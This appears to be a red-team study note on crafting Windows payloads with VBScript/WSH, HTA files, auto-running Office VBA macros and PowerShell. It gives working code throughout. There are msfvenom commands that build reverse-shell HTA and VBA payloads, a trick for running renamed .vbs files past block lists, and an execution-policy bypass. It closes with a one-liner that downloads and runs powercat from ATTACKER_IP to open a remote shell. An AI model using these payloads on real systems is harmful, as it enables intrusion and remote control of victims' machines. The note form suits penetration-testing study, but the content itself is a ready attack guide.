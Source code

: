 # Crafting Payloads
This will focus on creating payloads on a variety of built in scripting technologies, rather than the typical .exe
## WSH
Windows Scripting Host is a built-in windows administration tool that runs batch files to automate and manage tasks within the operating system. It is a Windows native engine `cscript.exe` (for command-line scripts) and `wscript.exe` (for UI scripts), which are responsible for executing various VBScripts including `vbs` and `vbe`. It is important to note that the VBScript engine runs and executes applications with the same level of access and permission as a regular user.

--- 
Now a simple VBScript code to create a windows message box that displays a message:
```VBScript
Dim message
message = "hallo world"
MsgBox message
```
Then we use `wscripts` in the cmd to run it
```
wscript hello.vbs
```

---
We can also use VBScript to run executable files for things like PoC.
```vbscript
Set shell = WScript.CreateObject("Wscript.Shell")
shell.Run("C:\Windows\System32\calc.exe"),1,True 
```
Here, we first create an object of the `WScript` library to call the execution payload, which serves like a cmd. Then utilize the `Run` method to execute the payload, which in this case is the `calc.exe`, or run any other command that we want. And also set the Window Style to `1` which means that it would be visible (We can instead use a `0` to hide the window and run the program in the background) and finally set the Wait for Completion value to `True` To wait until the command completes to continue execution Again to run it `wscript PoC.vbs` in the cmd. We can also use `cscript`.

--- 
If the `.vbs` are blacklisted, then we rename the file to `.txt` and run it with `wscript` like this
```
wscript /e:VBScript C:\Users\red\Desktop\payload.txt
```

## HTA
HTML Application, it allows us to create a downloadable file that takes all the information regarding how it is displayed and rendered. HTML Applications, also known as HTAs, which are dynamic `HTML` pages containing JScript and VBScript. The [LOLBINS](https://lolbas-project.github.io) tool `mshta` is used to execute HTA files. It can be executed by itself or automatically from Internet Explorer.

--- 
We can use `ActiveXObject` in our payload as a PoC to execute cmd.exe
```html

<html>
<body>
<script>
	var c = 'cmd.exe'
	new ActiveXObject('WScript.shell').run(c)
</script>
</body>
</html>
```
Then we need to server the payload from a webserver, this can be done with a python server
```sh
python3 -m http.server
```
and just browsing to the payload will automatically download the file, and when ran it will open the cmd on the target machine

---
We can also craft payloads for reverse connections with the help of Metasploit
```sh
msfvenom -p windows/x64/shell_reverse_tcp LHOST=eth0 LPORT=443 -f hta-psh -o shell.hta
```
Now when the target opens the file it will create a connection to our listener

---
We can also use Metasploit to generate and server an HTA file. By opening `msfconsole` and going to `exploit/windows/hta_server` we can configure it to create both the file and the webserver. The only difference from a normal listener will be that we need to set `SRVHOST` which will be the IP of the server from which we will host the file. 
## VBA
Visual Basic for Applications,a programming language implemented fro Microsoft applications such as Word, Excel, PowerPoint, etc. VBA programming allows automating tasks of nearly every keyboard and mouse interaction between a user and Microsoft Office applications. 
Macros are Microsoft Office applications that contain embedded code written in VBA. It is used to create custom functions to speed up manual tasks.

---
We can take advantage of macros to create malicious Microsoft documents. (We can found macros under the view tab on each application). Once here we can create our macro, note that we need to select for which document that macro will be used in the `Macros in` drop down list.
Now we can start coding, at the start it will display us a simple function with the same name of our macro
```vb
Sub Test()
'
'
' Test Macro
'
'
End Sub
```
We can add a simple message pop up with the following, and run it with either F5 or `Run`
```vb
Sub Test()
	MsgBox("Hallo")
End Sub
```
Now in order to execute the VBS code automatically once the document gets opened we can use built-in functions such as `AutoOpen` and `Document_open`.
```vb
Sub Document_Open()
  test
End Sub

Sub AutoOpen()
  test
End Sub

Sub test()
   MsgBox ("Hallo there")
End Sub
```
It is important to note that to make the macro work we need to save the document in a Macro-Enabled format such as `.doc` or `.docm`. Now once we reopen the document file, Word will show a security message indicating that "Macros have been disabled" as they are by default, and just by clicking on "Enable content" our macro will get executed. And the option will remain persistent tr

---
For a quick PoC and we could take advantage of `Wscript` once again
```vb
Sub PoC()
	Dim payload As String
	payload = "calc.exe"
	CreateObject("Wscript.Shell").Run (payload),1
End Sub
```
Similar to [[Payload Delivery#WSH|WSH]] the 1 after the payload means that the payload will run as a visible windows (0 for not visible). 

---
Like with all others, we can use msfvenom to create payloads
```shell
msfvenom -p windows/meterpreter/reverse_tcp LHOST=tun0 LPORT=443 -f vba
```

---
Also, is worth noting that a reverse shell from this method, will only last as long as the document remains open, so as soon as we get a connection we should try to migrate the process, we can do this inside the session in Metasploit with
```
run post/windows/manage/migrate
```
## PSH
PowerShell is an object-oriented programming language executed from the Dynamic Language Runtime in `.NET` with some exceptions for legacy uses. Red teamers rely on PowerShell in performing various activities, including initial access, system enumerations and many others.

---
We can start by creating a simple PSH script
```powershell
Write-Output "Hallo there"
```
We save the file as a `.ps1`, and we can run it inside the cmd with
```
powershell -File file.ps1
```
Now, probably it will throw an error due to PowerShell's execution policy. By default this execution policy is set to `Restricted`, meaning that it permits individual commands but not run any scripts. We can change this by running the following in the PowerShell CLI
```powershell
Set-ExecutionPolicy -Scope CurrentUser RemoteSigned
```
Microsoft also provides ways to disable this restriction. One of these is to give an argument option to the PowerShell command to change into to our desired setting. For example, we could change it to `bypass` policy, so it is not blocked or restricted. So the command will look like this
```
powershell -ex bypass -File file.ps1
```

---
Now, we can try getting a reverse shell using one of the tools written in PowerShell [Powercat](https://github.com/besimorhino/powercat). We can download it from GitHub and run a webserver to deliver it.
```shell
git clone https://github.com/besimorhino/powercat.git
cd powercat
python3 -m http.server 8080
```
Then we set up our [[Netcat]] listener and from the target machine we download the payload and execute it using PowerShell
```powershell
powershell -c "IEX(New-Object System.Net.WebClient).DownloadString('http://ATTACKER_IP:8080/powercat.ps1');powercat -c ATTACKER_IP -p 443 -e cmd"
```